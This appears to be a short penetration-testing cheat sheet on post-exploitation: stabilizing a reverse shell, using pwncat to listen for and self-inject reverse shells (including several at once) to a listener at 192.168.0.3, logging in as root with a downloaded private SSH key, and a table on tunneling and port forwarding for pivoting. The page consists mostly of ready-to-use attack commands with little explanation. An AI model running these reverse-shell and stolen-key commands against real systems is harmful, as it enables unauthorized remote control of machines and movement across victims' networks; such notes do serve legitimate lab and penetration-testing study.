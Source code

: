 #### Shell Stabilization
`We can use terminal commands like clear that is important after getting reverse shell.`

```export TERM=xterm```

##### Check available languages installed in System like python, perl, etc to get a better shell.

#### Backgrounding and Foregrounding Shell
```
Background CTRL+Z
Foreground : stty raw -echo; fg 
```

#### Pwncat

```
usage : pwncat -l 2000

Self-Inject Shell
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234
```
![Screenshot at 2022-12-19 11-47-20](https://user-images.githubusercontent.com/85208639/208359602-1d7531c9-5f7e-469a-802d-c3ee4c011e6a.png)

#### Connect Multiple Reverse Shells with Clients

```
pwncat -l 1234 --self-inject /bin/sh:192.168.0.3:1234+3
The above command creates 4 reverse shells on the machines at port 1235,1236,1237,1234

```

Sometimes we may gain remote machine ssh secret utilizing it we may be able to get access to it.

```
1) Download the id_rsa to local machine.
2) chmod 600 id_rsa
3) ssh -i id_rsa root@192.169.0.3
```


#### Pivoting Techniques
| Tunneling | Port Forwarding |
| --- | ---|
|Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network|Creating a connection between local port and single port on target|
|Reliable if we want to perform nmap scan on other machine or send large amount of traffic.|Reliable but only single port can be accessed at a time.|
